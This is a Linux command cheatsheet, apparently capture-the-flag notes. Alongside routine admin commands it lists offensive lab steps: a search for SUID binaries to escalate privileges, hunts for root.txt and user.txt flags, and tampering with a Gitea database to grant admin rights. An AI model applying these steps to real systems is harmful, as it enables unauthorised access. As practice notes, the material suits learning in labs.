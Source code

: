 ```yaml
---
title: Some Linux cheatsheet  commands 👾
---
```


- Get all the info of your operating system

```shell
hostnamectl
```

- Get the content of a .sh:

```shell
file file.sh
```

- Get the PATH:

```shell
echo $PATH
```

- Get the bash functions available:

```shell
declare -F
```

- To count the results:

```shell
declare -f | wc -l
```

- List a function definition:

```shell
type quote
```

- Use a funtion:

```shell
quote bob
```

- If you don't have Internet, try this:

```shell
sudo ifconfig eth0 up
sudo dhclient eth0
```

- SUID:

  - Files with the SUID bit set when executed are run with the permissions of the owner of the file. So if there is an binary that is owned by root and it has the SUID bit set we could theoretically use this binary to elevate our permissions.

    To find SUID binaries, we can run the following command:

```shell
find / -user root -perm /4000 2>/dev/null
#or
find / -type f -user root -perm -u=s 2>/dev/null
```

- How to find any file:

```shell
find / type f -iname filename.txt 2> /dev/null
```

- Get the size of a file:

```shell
du -sh file.txt
```

- BASH math -> https://phoenixnap.com/kb/bash-math
- `ERROR: Unable to negotiate with X.X.X.X port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss`

```shell
ssh -oHostKeyAlgorithms=+ssh-dss username@x.x.x.x
```

- To encrypt an external or internal hard drive or USB:

```shell
sudo apt-get install cryptsetup
sudo apt-get install gnome-disk-utility
```

- Compare the size of two remote files using ssh:

```shell
ls -l file.txt | awk '{ print $x }' #x is the option you want
```

- How to remove a package on linux:

```shell
sudo apt-get remove package
```

- How to upload files remotely via sftp:

```shell
sshpass -p passwd sftp -oHostKeyAlgorithms=+ssh-dss  username@host
put -r directory_from directory_to
```

- Check your open ports:

```shell
netstat -putona
netstat -nlptn
```

- Use the tool tac for printing files when cat, vi, vim... are blocked or not permitted:

```shell
tac /home/file.txt
```

- Get everything of a website to obtain flags:

```shell
wget -r -np -k http://IP_HOST
cd IP_HOST
grep -nri "THM"
```

- Locate any file with `find`:

```shell
sudo find / -type f -name root.txt 2>/dev/null
# or
sudo find / -type f -name root.txt 2>/dev/null
#or
sudo find /home -type f -name root.txt 2>/dev/null
```

- Unzip a file on Linux using Python:

```shell
python3 -m zipfile -e CVE-2021-3156-main.zip .
```

- Transfer a file from remote host to yours using **scp**:

```shell
#by private key
scp -i id_rsa USER@IP_HOST:/PATH/TO/THE/FILE /DESTINATION/PATH
#by port
scp -P PORT USER@IP_HOST:/PATH/TO/THE/FILE /DESTINATION/PATH
```

- If the linux machine doesn't have `wget`, we can try:
	- Using  [Netcat 😼](Netcat.md)
	- Or the following:

```shell
curl "url_to_the_file" -o output.file
```


- Add a host to the known hosts:

```shell
sudo echo "10.10.59.31 subdomain.adana.thm" | sudo tee -a /etc/hosts
```

- Find open ports internally:

```shell
ss -tulwn
```

- Download a file from attacker's machine using `scp`:

```shell
scp USER@MACHINE-IP:/gitea/gitea/gitea.db /tmp/gitea.db
```

- If you find a `.db` try to enter to it by:

```shell
sqlite3 file.db
# The you can do
select * from user;
select lower_name, is_admin from user;
# Update the admin of a new user
UPDATE user SET is_admin=1 WHERE lower_name="<username>";
.quit #exit the database
```

- Upload the modified database:

```shell
scp /tmp/gitea.db USER@MACHINE-IP:/gitea/gitea/gitea.db
```

- Analyze services and running processes:

```shell
systemctl list-units --type=service --state=running
```

- Get to know which kind of file it is:

```shell
file /path/to/file
```

- Find `user.txt` flag:

```shell
find / -type f -name user.txt 2>/dev/null
```

- Mount a remote directory to our machine:

```shell
mkdir /mnt/NAME
mount HOST:/DIR /mnt/NAME
ls -la /mnt/NAME # to check
```

![](Pasted%20image%2020240512165418.png)